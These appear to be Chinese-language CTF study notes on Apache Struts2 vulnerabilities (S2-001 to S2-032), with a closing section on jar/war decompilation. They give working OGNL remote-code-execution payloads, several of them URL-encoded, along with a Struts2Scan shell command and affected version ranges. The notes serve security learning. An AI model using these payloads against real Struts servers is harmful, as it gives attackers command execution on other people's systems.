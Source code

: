 # JAVA漏洞

<br>


### Struts2漏洞脚本

- [Struts2Scan](https://github.com/Vancomycin-g/Struts2Scan)

<br>

例子：使用S2-009漏洞获取shell

-u url

-n 漏洞名称

-e 命令行

````
python3 Struts2Scan.py -u http://b03293c4-fdd9-4c93-8861-d521da0383bf.challenge.ctf.show/S2-009/showcase.action -n S2-008 -e

````

<br>

### S2-001


playload ：

````

%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}

````

<br>

原理:

<br>

这是一段针对 Struts2 框架的远程代码执行（RCE）攻击代码。该攻击利用了 Struts2 过滤器没有正确处理 OGNL 表达式中 #{} 情况的漏洞，导致攻击者可以在 HTTP 请求中注入任意代码，从而执行任意命令。
具体来说，这段代码会创建一个新的进程，并执行 "env" 命令，将结果输出到 InputStream 中。然后通过 BufferedReader 和 char 数组等方式读取 InputStream 中的内容，并将结果输出到 HttpServletResponse 中，最终返回给攻击者。

<br>

### S2-005


原理:

<br>

对于S2-003，Struts2将HTTP的每个参数名解析为ognl语句执行,而ognl表达式是通过#来访问struts的对象，Struts2框架虽然过滤了#来进行过滤，但是可以通过unicode编码（u0023）或8进制（43）绕过了安全限制，达到代码执行的效果
再看S2-005
S2-005和S2-003的原理是类似的，因为官方在修补S2-003不全面，导致用户可以绕过官方的安全配置（禁止静态方法调用和类方法执行），再次造成的漏洞，可以说是升级版的S2-005是升级版的S2-003


<br>


## S2-007 S2-008 S2-009用脚本通杀就完了

<br>

### S2-012


原理:

<br>

如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，例如：

<package name="S2-012" extends="struts-default"> <action name="user" class="com.demo.action.UserAction"> <result name="redirect" type="redirect">/index.jsp?name=${name}</result> <result name="input">/index.jsp</result> <result name="success">/index.jsp</result> </action> </package>

这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行

影响版本: 2.1.0 - 2.3.13

https://blog.51cto.com/u_15878568/5955193

<br>

playload ：

````
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}

````

<br>

## S2-013 S2-015 S2-016用脚本通杀就完了

<br>

## S2-015

原理:

<br>

漏洞产生于配置了 Action 通配符 *，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：
````
<package name="S2-015" extends="struts-default"> <action name="*" class="com.demo.action.PageAction"> <result>/{1}.jsp</result> </action> </package>
````
上述配置能让我们访问 name.action 时使用 name.jsp 来渲染页面，但是在提取 name 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 name 值的位置比较特殊，一些特殊的字符如 / " \ 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功

还有需要说明的就是在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了 SecurityMemberAccess 类中的 setAllowStaticMethodAccess 方法，因此在 2.3.14.2 版本以后都不能直接通过 ​​#_memberAccess['allowStaticMethodAccess']=true​​ 来修改其值达到重获静态方法调用的能力

https://blog.51cto.com/u_15878568/5955193


url编码发送:

````
%24%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%69%64%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d%2e%61%63%74%69%6f%6e
````


## S2-019

<br>

原理：
动态方法调用是一种已知会施加可能的安全漏洞的机制，但到目前为止，它默认启用，警告用户应尽可能将其关闭。这样就存在远程代码执行漏洞，远程攻击者可利用此漏洞在受影响应用上下文中执行任意代码

<br>

playload:(放在url后面)

<br>

````
/HelloWorld.action?debug=command&expression=%23a%3D%28new%20java.lang.ProcessBuilder%28%27env%27%29%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew%20java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew%20java.io.BufferedReader%28%23c%29%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read%28%23e%29%2C%23out%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23out.getWriter%28%29.println%28new%20java.lang.String%28%23e%29%29%2C%23out.getWriter%28%29.flush%28%29%2C%23out.getWriter%28%29.close%28%29%0A                                                                                                                                                                      
````

## S2-032

playload:(放在url后面)

原理:

Struts框架被强制执行时，对分配给某些标签的属性值进行双重评估，因此可以传入一个值，当一个标签的属性将被渲染时，该值将被再次评估
例如：代码执行过程大致为先尝试获取value的值，如果value为空，那么就二次解释执行了name。并且在执行前给name加上了”%{}”。最终造成二次执行
影响版本：Struts 2.0.0 - Struts 2.3.24.1（2.3.20.3除外）


<br>

````
default.action?message=(%23_memberAccess['allowPrivateAccess']=true,%23_memberAccess['allowProtectedAccess']=true,%23_memberAccess['excludedPackageNamePatterns']=%23_memberAccess['acceptProperties'],%23_memberAccess['excludedClasses']=%23_memberAccess['acceptProperties'],%23_memberAccess['allowPackageProtectedAccess']=true,%23_memberAccess['allowStaticMethodAccess']=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('env').getInputStream()))

````

<br>

## S2-046 不会
## S2-045 脚本通杀
## 反编译

jar包和war包都可以看成压缩文件，都可以用解压软件打开，jar包和war包都是为了项目的部署和发布，通常在打包部署的时候，会在里面加上部署的相关信息。这个打包实际上就是把代码和依赖的东西压缩在一起，变成后缀名为.jar和.war的文件，就是我们说的jar包和war包。但是这个“压缩包”可以被编译器直接使用，把war包放在tomcat目录的webapp下，tomcat服务器在启动的时候可以直接使用这个war包。通常tomcat的做法是解压，编译里面的代码，所以当文件很多的时候，tomcat的启动会很慢。

<br>

jar包和war包的区别：jar包是java打的包，war包可以理解为javaweb打的包，这样会比较好记。jar包中只是用java来写的项目打包来的，里面只有编译后的class和一些部署文件。而war包里面的东西就全了，包括写的代码编译成的class文件，依赖的包，配置文件，所有的网站页面，包括html，jsp等等。一个war包可以理解为是一个web项目，里面是项目的所有东西。
